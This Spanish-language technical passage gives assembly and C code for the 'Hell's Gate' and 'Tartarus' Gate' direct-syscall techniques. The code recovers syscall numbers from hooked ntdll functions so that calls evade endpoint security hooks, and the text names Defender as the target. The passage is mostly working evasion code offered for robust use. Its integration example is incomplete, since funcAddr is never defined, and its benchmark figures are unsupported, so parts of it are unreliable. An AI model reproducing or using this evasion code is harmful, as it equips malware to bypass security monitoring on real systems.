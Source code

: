 **Stub Ensamblador para Hell's Gate:**
```asm
.data
wSystemCall WORD 0

.code
HellsGate PROC
    mov wSystemCall, cx  ; Recibe SSN en CX
    ret
HellsGate ENDP

HellDescent PROC
    mov r10, rcx         ; Primer arg
    mov rax, wSystemCall ; SSN
    syscall
    ret
HellDescent ENDP
```
Este stub es minimalista: HellsGate setea SSN global, HellDescent ejecuta.

**Pseudocódigo para Tartarus:**
```c
BOOL GetSSNAdvanced(PVOID funcAddr, PWORD pSsn) {
    PBYTE addr = (PBYTE)funcAddr;
    if (addr[3] == 0xE9) {  // Hook detectado
        for (int idx = 1; idx <= 500; idx++) {
            PBYTE candidate = addr + idx * 32;  // DOWN
            if (candidate[0] == 0x4C && candidate[1] == 0x8B && candidate[2] == 0xD1 && candidate[3] == 0xB8) {
                *pSsn = *(WORD*)(candidate + 4) - idx;
                return TRUE;
            }
            candidate = addr - idx * 32;  // UP
            if (candidate[0] == 0x4C && candidate[1] == 0x8B && candidate[2] == 0xD1 && candidate[3] == 0xB8) {
                *pSsn = *(WORD*)(candidate + 4) + idx;
                return TRUE;
            }
        }
    }
    return FALSE;  // Fallback a Hell's Gate
}
```
Explicación: Itera offsets, valida patrón, ajusta SSN. Para idx=1, DOWN: SSN -1; UP: SSN +1.

**Casos de Uso:**
- En Defender: Hooks en byte 3; Tartarus encuentra stubs en ±64 bytes.
- Benchmarks: Mejor caso 5ms (10 iteraciones); peor 50ms (1000).

**Ejemplo Completo de Integración:**
```c
WORD GetSSN(const char* funcName) {
    // Buscar en EAT
    // Si Tartarus falla, usar Hell's Gate
    WORD ssn;
    if (!GetSSNAdvanced(funcAddr, &ssn)) {
        // Hell's Gate: extraer directo
        ssn = *(WORD*)(funcAddr + 4);
    }
    return ssn;
}
```
Esto combina ambas para máxima robustez.
